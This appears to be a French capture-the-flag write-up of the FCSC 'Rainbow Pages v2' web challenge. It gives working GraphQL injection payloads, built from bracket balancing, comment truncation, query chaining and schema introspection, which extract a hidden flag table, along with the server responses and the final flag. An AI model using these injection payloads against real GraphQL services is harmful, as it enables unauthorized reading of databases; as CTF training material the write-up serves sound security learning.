




# Web - Rainbow Pages v2
  
La page du challenge :  
  
Comme pour tout challenge web , on commence par regarder la source de la page mais également ``robots.txt`` et ``sitemap.xml``.  
Rien d'intéressant.  
  
On nous propose de rechercher un chef cuisinier, on teste avec ``a`` :  
  
Le service nous sort plusieurs chef.  
On teste avec ``b``. On nous propose des chefs différents.  
  
On ouvre BurpSuite pour voir à quoi ressemblent ces requêtes.  
```
GET /index.php?search=YQ== HTTP/1.1
Host: challenges2.france-cybersecurity-challenge.fr:5007
Accept: */*
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://challenges2.france-cybersecurity-challenge.fr:5007/
DNT: 1
Connection: close
Cookie: PHPSESSID=c95d0fc6033a4e7c5bdcd0210c8ad992
```
Et la réponse :  
```
HTTP/1.1 200 OK
Content-Length: 1160
Content-Type: text/html; charset=UTF-8
Date: Thu, 30 Apr 2020 19:58:51 GMT
Server: Apache/2.4.38 (Debian)
Vary: Accept-Encoding
X-Powered-By: PHP/7.4.5
Connection: close

{"data":{"allCooks":{"nodes":[{"firstname":"Thibault","lastname":"Royer","speciality":"Raji Cuisine","price":12421},{"firstname":"Antoinette","lastname":"Martineau","speciality":"French traditional","price":3829},{"firstname":"Bernard","lastname":"Bruneau","speciality":"Chinese and Thai","price":14100},{"firstname":"Trycia","lastname":"Barton","speciality":"Fast food","price":920},{"firstname":"Jaleel","lastname":"Gerlach","speciality":"Tandoori dishes","price":24575},{"firstname":"Isaac","lastname":"Collier","speciality":"South Korean foods","price":8416},{"firstname":"Paula","lastname":"Hessel","speciality":"Pizza","price":74401},{"firstname":"Teagan","lastname":"Kertzmann","speciality":"Vegererian","price":12664},{"firstname":"Garfield","lastname":"Goldner","speciality":"Air and sun","price":944092},{"firstname":"Elisabeth","lastname":"Windler","speciality":"Vegetelian","price":310603},{"firstname":"Casey","lastname":"Schmitt","speciality":"Italian","price":96837},{"firstname":"Luciano","lastname":"Smitham","speciality":"Brittany specialities","price":1963},{"firstname":"Jace","lastname":"Jakubowski","speciality":"Sushi","price":20522}]}}}
```
  
On remarque que notre recherche est encodée en base64 et passée en paramètre à notre requête : ``GET /index.php?search=YQ== HTTP/1.1``  
Si on décode ce base64, on obtient ``a``. Donc contrairement à Rainbow Pages, nous n'avons aucun indice (on peut penser que le développeur a gardé GraphQL).  
  
Ce qu'il nous faut :
* mettre en commentaire la fin de la requête, car on ignore ce qu'elle contient
* sortir des filtres et des sélections à coup de ``)``, ``]`` et ``}``
* trouver un moyen d'enchaîner plusieurs requêtes (comme un ``UNION``)
* connaître le nom de la table et du champs que l'on recherche
  
Un petit tour sur la [documentation](https://graphql.org/learn) et dès la 2ème page, on a notre réponse sur le commentaire :  
```
{
  hero {
    name
    # Queries can have comments!
    friends {
      name
    }
  }
}
```
En regardant les réponses du serveur, on peut déduire que pour enchaîner plusieurs requêtes il suffit de les séparer par une virgule.  
  
On peut maintenant commencer !  
  
Pour sortir de la chaîne de caractères, rien de plus simple : ``"``.  
On commence donc avec ``a"#``.  
On l'encode en base64 et on l'envoie. Le serveur nous renvoie une erreur :   
```
{"errors":[{"message":"Syntax Error: Expected Name, found <EOF>","locations":[{"line":1,"column":148}]}]}
```
Donc si on a une erreur similaire à celle-ci, c'est qu'il manque ``)``, ``]`` ou ``}``.  
Alors on les rajoute un par un et dans l'ordre pour ne pas se perdre : ``a")#``.  
Le serveur nous renvoie une autre erreur :   
```
{"errors":[{"message":"Syntax Error: Expected Name, found )","locations":[{"line":1,"column":53}]}]}
```
Ainsi, si on a l'erreur ``Syntax Error: Expected Name, found <EOF>``  ou une erreur en rapport avec ``<EOF>`` c'est que l'on a trouvé le bon caractère entre ``)``, ``]`` et ``}`` et qu'il faut en ajouter un.  
Si on a l'erreur ``Syntax Error: Expected Name, found x`` ou en rapport avec ``x`` où x est ``)``, ``]`` ou ``}``, c'est qu'il faut changer entre ``)``, ``]`` ou ``}``.  
Après quelques requêtes, on arrive à ça : ``a"}}]})}#``, et on obtient un résultat totalement différent (c'est bon signe 😉 ):  
```
{"errors":[{"message":"Field \"allCooks\" of type \"CooksConnection\" must have a selection of subfields. Did you mean \"allCooks { ... }\"?","locations":[{"line":1,"column":3}]}]}
```
La requête complète ressemble donc à ça :  
```
{ allCooks( z{ z[ z{ z{ "a"}}]})}#
```
Alors que le serveur s'attend à :  
 ```
{ allCooks( z{ z[ z{ z{ "a"}}]}){x}}#
```
Avec quelque chose à la place de ``x``, mais quoi ?  
Si on reprend le premier challenge Rainbow Pages, la requête était comme ça :  
```
{ allCooks (filter: { firstname: {like: "%a%"}}) { nodes { firstname, lastname, speciality, price }}}
```
A la place de ``x``, on peut donc mettre ``nodes{firstname}`` par exemple.  
On teste :  
```
a"}}]}){ nodes{firstname}}}#
```
Et la réponse du serveur :  
```
{"data":{"allCooks":{"nodes":[{"firstname":"Trycia"},{"firstname":"Paula"}]}}}
```
Top ! Aucune erreur !  
  
Maintenant, on va essayer d'effectuer une deuxième requête en séparant les deux requêtes par une virgule :  
```
a"}}]}){ nodes{firstname}}, allFlags{ nodes{flag}} }#
```
La réponse du serveur :  
```
{"errors":[{"message":"Cannot query field \"allFlags\" on type \"Query\". Did you mean \"allCooks\"?","locations":[{"line":1,"column":79}]}]}
```
La table ``allFlags`` n'existe pas, le/les créateur/s du challenge ont choisi un nom différent par rapport au premier Rainbow Pages. Il faudrait donc lister les tables.  
On retourne sur la documentation [ici](https://graphql.org/learn/introspection/) et on trouve notre bonheur [là](https://graphql.org/learn/introspection/).  
  
On peut donc tester avec ça :  
```
a"}}]}){ nodes{firstname}}, __schema{ types{name}} }#
```
La réponse du serveur :  
```
{"data":{"allCooks":{"nodes":[{"firstname":"Trycia"},{"firstname":"Paula"}]},"__schema":{"types":[{"name":"Query"},{"name":"Node"},{"name":"ID"},{"name":"Int"},{"name":"Cursor"},{"name":"CooksOrderBy"},{"name":"CookCondition"},{"name":"String"},{"name":"CookFilter"},{"name":"IntFilter"},{"name":"Boolean"},{"name":"StringFilter"},{"name":"CooksConnection"},{"name":"Cook"},{"name":"CooksEdge"},{"name":"PageInfo"},{"name":"FlagNotTheSameTableNamesOrderBy"},{"name":"FlagNotTheSameTableNameCondition"},{"name":"FlagNotTheSameTableNameFilter"},{"name":"FlagNotTheSameTableNamesConnection"},{"name":"FlagNotTheSameTableName"},{"name":"FlagNotTheSameTableNamesEdge"},{"name":"__Schema"},{"name":"__Type"},{"name":"__TypeKind"},{"name":"__Field"},{"name":"__InputValue"},{"name":"__EnumValue"},{"name":"__Directive"},{"name":"__DirectiveLocation"}]}}}
```
``FlagNotTheSameTableName`` semble intéressant x).  
On liste maintenant les champs de cette table :  
```
a"}}]}){ nodes{firstname}}, __type( name:"FlagNotTheSameTableName") { fields{name}} }#
```
La réponse du serveur :  
```
{"data":{"allCooks":{"nodes":[{"firstname":"Trycia"},{"firstname":"Paula"}]},"__type":{"fields":[{"name":"nodeId"},{"name":"id"},{"name":"flagNotTheSameFieldName"}]}}}
```
  
Comme pour la table ``Cook``, il faut rajouter ``all`` au début et un ``s`` à la fin de ``FlagNotTheSameTableName`` comme ceci : ``allFlagNotTheSameTableNames``  
Et notre requête finale donne :  
```
a"}}]}){nodes{firstname}}, allFlagNotTheSameTableNames{ nodes{flagNotTheSameFieldName}} }#
```
La réponse du serveur :  
```
{"data":{"allCooks":{"nodes":[{"firstname":"Trycia"},{"firstname":"Paula"}]},"allFlagNotTheSameTableNames":{"nodes":[{"flagNotTheSameFieldName":"FCSC{70c48061ea21935f748b11188518b3322fcd8285b47059fa99df37f27430b071}"}]}}}
```
  
**FLAG : FCSC{70c48061ea21935f748b11188518b3322fcd8285b47059fa99df37f27430b071}**